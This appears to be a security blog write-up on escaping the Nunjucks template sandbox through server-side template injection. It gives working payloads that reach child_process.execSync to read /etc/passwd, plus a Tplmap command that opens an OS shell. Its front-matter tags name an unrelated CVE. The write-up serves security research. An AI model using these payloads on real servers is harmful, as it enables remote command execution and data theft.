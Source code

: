 ```yaml
---
comments: true
date: 2016-08-02 12:58:30
layout: post
slug: 2016-08-02-sandbox-break-out-nunjucks-template-engine
title: Sandbox Breakout - A view On The Nunjucks Template Engine
categories:
- Security
- Vulnerabilities
- Web Apps
tags:
- CVE-2014-5073
- advisory
- vmturbo
- pentesting
- security
- vulnerability
- rce
- cgi
- command execution 
---
```


Introduction
------------

This write-up describes a sandbox escape technique on Nunjucks template engine implemented by [Tplmap](https://github.com/epinna/tplmap), a tool to exploit Server-Side Template Injection vulnerabilities (SSTI) and achieve remote command execution on the operating system. Thanks to [Andrea](https://github.com/cyrus-and) who has worked with me on this analysis.

Nunjucks
--------

[Nunjucks](https://mozilla.github.io/nunjucks/) is a template engine for by Jinja2 used to develop web applications on Node.js web frameworks as [Express](http://expressjs.com/) or [Connect](https://github.com/senchalabs/connect#readme). The snippet from a Connect application serves a web page (`http://localhost:15004/page?name=John`) which suffers from Server-Side Template Injection vulnerability.

```javascript
app.use('/page', function(req, res){
  if(req.url) {
    var url_parts = url.parse(req.url, true);
    var name = url_parts.query.name;
    
    // Include user-input in the template
    var template = 'Hello ' + name + '!'; 
    
    rendered = nunjucks.renderString(
      str = template
    );
    res.end(rendered);
  }
});
```


{% raw %}

The user controllable `name` GET parameter is concatenated to the template string instead of being passed as `context` argument, introducing the SSTI vulnerability. The vulnerable parameter can be detected injecting a basic operation which is evaluated at rendering time.

```bash
$ curl -g 'http://localhost:15004/page?name={{7*7}}'
Hello 49!
$
```

The vulnerability does not affect Nunjucks itself, but is introduced when the user’s input is directly concatenated to a template.

Sandbox escape
--------------

As many other template engines, Nunjucks template code runs in a sandboxed environment. Any global object is stripped out from the environment, to limit the surface which could be used to break out of the sandbox and execute arbitrary JavaScript. For example, calling the global object `console` raises an undefined exception.

```javascript
{{console.log(1)}}

Template render error: (unknown path)
  Error: Unable to call `console["log"]`, which is undefined or falsey
```

Luckily for the attacker the documentation describes three utility functions [range, cycler, and joiner](https://mozilla.github.io/nunjucks/templating.html#global-functions) which are the only callables from within the template.

The `constructor` property of any function is the [Function constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) which allows to create a new function starting from the body string. 

```javascript
{{range.constructor("console.log(123)")()}}'
```

The code above is correctly evaluated and it prints `123` in the logs. The operating system access is not straightforward  since `require()` cannot be used to import standard modules without triggering an exception.

```javascript
{{range.constructor("return require('fs')")()}}

Template render error: (unknown path)
 Error: Unable to call `range["constructor"]`, which is undefined or falsey
```

The missing `require`constraint can be bypassed using `global.process.mainModule.require`. In the snippet below, the module `fs` is imported and printed.

```javascript
{{range.constructor("return global.process.mainModule.require('fs')")()}}

[object Object]
```

Finally, the exploit to access the underlying operating system can be finalised executing `tail /etc/passwd` via the `child_process.execSync()` method.

```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Tplmap integration
------------------

The sandbox escape technique has been integrated in Tplmap Nunjucks plugin to compromise the target in a fully automated way.

```bash
$ ./tplmap.py -u http://localhost:15004/page?name=* --engine Nunjucks --os-shell
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'name'
[+] Nunjucks plugin is testing rendering with tag '{{*}}'
[+] Nunjucks plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  Engine: Nunjucks
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Run commands on the operating system

linux $ tail /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

[Tplmap](https://github.com/epinna/tplmap) support of new template engines can be easily extended writing plugins. All contributions are greatly appreciated, both code or ideas of sandbox escapes of new template engines. Submit your sandbox break-out idea or code via Github issues and pull request.

{% endraw %}
